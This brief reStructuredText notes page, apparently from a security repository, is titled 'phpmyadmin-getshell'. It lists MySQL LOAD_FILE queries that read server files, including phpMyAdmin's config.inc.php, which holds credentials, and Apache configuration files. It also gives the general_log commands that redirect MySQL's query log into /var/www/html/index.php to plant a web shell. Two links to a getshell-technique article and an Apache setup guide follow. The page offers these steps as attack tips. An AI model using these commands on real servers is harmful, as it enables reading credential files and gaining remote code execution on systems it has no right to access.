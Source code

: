 phpmyadmin-getshell
===========================

phpmyadmin-getshell


Tips
-----------------

::

	select load_file('/var/www/html/index.html')
	select load_file('/etc/apache2/apache2.conf')
	select load_file('/etc/phpmyadmin/config.inc.php')
	select load_file('/usr/share/phpmyadmin/index.php')
	SELECT LOAD_FILE( '/usr/share/phpmyadmin/phpinfo.php' )
	SELECT LOAD_FILE( '/etc/apache2/sites-enabled/000-default.conf' )
	SELECT LOAD_FILE( '/etc/apache2/sites-available/000-default.conf' )
	SELECT LOAD_FILE( '/etc/apache2/conf-available/serve-cgi-bin.conf' )

::

	set global general_log = "ON";
	set global general_log_file='/var/www/html/index.php';


phpmyadmin getshell姿势
-----------------

`phpmyadmin getshell姿势`_


.. _phpmyadmin getshell姿势: https://xz.aliyun.com/t/3283


Ubuntu 14.04 Web服务器--Apache的安装和配置
-----------------

`Ubuntu 14.04 Web服务器--Apache的安装和配置`_


.. _Ubuntu 14.04 Web服务器--Apache的安装和配置: https://jingyan.baidu.com/article/6d704a130c8a0d28da51ca5f.html


